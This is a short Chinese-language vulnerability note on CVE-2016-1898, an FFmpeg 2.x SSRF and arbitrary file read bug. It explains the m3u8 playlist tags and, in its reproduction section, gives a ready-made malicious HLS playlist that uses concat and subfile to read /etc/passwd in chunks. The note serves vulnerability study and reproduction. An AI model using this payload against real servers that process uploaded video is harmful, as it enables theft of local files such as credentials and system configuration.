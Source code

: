 ```yaml
---
title: "（CVE-2016-1898）Ffmpeg 任意文件读取漏洞"
id: zhfly2939
---
```


# （CVE-2016-1898）Ffmpeg 任意文件读取漏洞

## 一、漏洞简介

CVE-2016-1898可以读取文件任意行

*   #EXTM3U 标签是m3u8的文件头，开头必须要这一行
*   #EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
*   #EXT-X-VERSION:2 该标签可有可无
*   #EXTINF:6, 表示该一段TS流文件的长度
*   #EXT-X-ENDLIST 这个相当于文件结束符

## 二、漏洞影响

FFmpeg 2.x

## 三、复现过程

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request Forgery) 恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对subfile的支持(https://www.0-sec.org/ffmpeg-protocols.html#subfile )来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST 
```